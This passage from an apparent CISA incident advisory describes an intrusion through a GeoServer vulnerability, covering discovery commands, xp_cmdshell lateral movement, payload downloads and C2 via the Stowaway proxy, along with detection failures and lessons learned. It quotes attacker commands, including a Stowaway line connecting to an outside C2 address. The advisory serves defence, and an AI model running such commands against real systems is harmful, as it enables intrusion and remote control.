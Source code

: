 dir c:\ [ T1083 ] dir c:\Users type c:\Last.txt type c:\inetpub\wwwroot type c:\inetpub\ dir c:\inetpub\wwwroot dir c:\ dir c:\ifwapps dir d:\ dir e:\ net group "domain admins" /domain type C:\Windows\System32\inetsrv\config\applicationHost.config dir c:\ifwapps\Tier1Utilities netstat -ano curl net user tasklist GeoServer 2 Based on images CISA received of GeoServer 2, CISA observed the bash history of a user that showed the use of Burp Collaborator to execute encoded host and network discovery commands. Lateral Movement In one instance, the cyber threat actors moved laterally from the Web Server to the SQL Server by enabling xp_cmdshell for RCE on GeoServer 1. Command and Control The cyber threat actors used PowerShell [ T1059.001 ] and bitsadmin getfile to download payloads [ T1105 ].&nbsp; They used Stowaway [5] , a publicly available multi-level proxy tool, to establish C2 [ T1090 ]. Stowaway enabled the cyber threat actors to bypass the organization’s intranet restrictions and access internal network resources by forwarding traffic from their C2 server through the Web Server. They wrote Stowaway to disk using a tomcat service account. The actors then executed Stowaway via /var/tmp/agent -c 45.32.22[.]62:4441 -s f86bc7ff68aff3ad –up http –reconnect 10 . To test their level of access, the cyber threat actors performed a ping sweep of multiple hosts in a particular subnet of the organization’s network. Next, the cyber threat actors downloaded a modified version of Stowaway using a curl command, successfully establishing an outbound connection with their C2 server using HTTP over TCP/4441 . On July 14, 2024, the cyber threat actors executed /tmp/mm.sh on the Web Server followed by an encoded command to execute Stowaway. The contents of this file could not be recovered. Additionally, they used Stowaway to establish a second C2 connection over TCP/50012 , likely serving as a backup C2 channel. CISA discovered evidence of various files hosted on the C2 server, including numerous publicly available tools and scripts: RingQ antivirus defense evasion tool ( RingQ.exe , RingQ.rar ) IOX proxy tool ( iox.rar ) BusyBox trojan multi-tool ( busybox ) WinRAR archive tool ( Rar.exe ) Stowaway proxy tool ( agent , agent.tar , agent.zip , agentu.exe ) Web shells ( Handx.ashx , start_tomcat.jsp ) Various shell scripts ( mm.sh , t.py , t1.sh , c.bat ) Detection The cyber threat actors remained undetected in the organization’s environment for three weeks before the organization’s SOC identified the compromise using their EDR tool. On July 31, 2024, their EDR tool identified a&nbsp; 1.txt file uploaded as suspected malware on the SQL Server. The SOC responded to additional alerts when the cyber threat actors transferred&nbsp; 1.txt to the SQL Server through&nbsp; bitsadmin after attempting other LOTL techniques, such as leveraging PowerShell and&nbsp; certutil . The alerts&nbsp;generated by this activity on the SQL server prompted the SOC to contain the server, initiate an investigation, request assistance from CISA, and uncover malicious activity on GeoServer 1. Lessons Learned CISA is sharing the following lessons learned based on what CISA learned about the organization’s security posture through incident detection and response activities. Vulnerabilities were not promptly remediated . The cyber threat actors exploited CVE-2024-36401 for initial access on two GeoServers. The vulnerability was disclosed June 30, 2024, and the cyber threat actors exploited it for initial access to GeoServer 1 on July 11, 2024. The vulnerability was added to CISA’s KEV Catalog on July 15, 2024, and by July 24, 2024, the vulnerability was not patched when the cyber threat actors exploited it for access to GeoServer 2. Note: FCEB agencies are required to remediate vulnerabilities in CISA’s KEV Catalog within prescribed timeframes under Binding Operational Directive (BOD) 22-01 . July 24, 2024, was within the KEV-required patching window for this CVE. However, CISA encourages FCEB agencies and critical infrastructure organizations to address KEV catalog vulnerabilities immediately as part of their vulnerability management plan. The agency did not test or exercise their IRP, nor did their IRP enable them to promptly engage third parties and grant third parties’ access to necessary resources . On Aug. 1, 2024, upon discovering the endpoint alerts, the agency conducted remote triage of affected systems and used their EDR tool to contain the intrusion. After containment, the agency engaged CISA to investigate potential threat actor persistence in their environment. Their IRP did not have procedures for bringing in third parties for assistance, which hampered CISA’s efforts to respond to the incident quickly and efficiently. The agency could not provide CISA remote access to their security information and event management (SIEM) tool, which initially kept CISA from reviewing all available logs, hindering CISA’s analysis. The agency had to go through their change control board process before CISA could deploy their EDR agents. The agency could have proactively identified these roadblocks by testing their IRP, such as via a tabletop exercise, but had not tested their plan for a long period. EDR alerts were not continuously reviewed, and some public-facing systems lacked endpoint protection . The activity remained undetected for three weeks; the agency missed an opportunity to detect this activity on July 15, 2024, as they did not observe an alert from GeoServer 1 where the EDR detected the Stowaway tool. The Web Server lacked endpoint protection. Indicators of Compromise See Table 1 for IOCs associated with this activity. Disclaimer: The IP addresses in this advisory were observed in August 2024, and some may be associated with legitimate activity. Organizations are encouraged to investigate the activity around these IP addresses prior to taking action, such as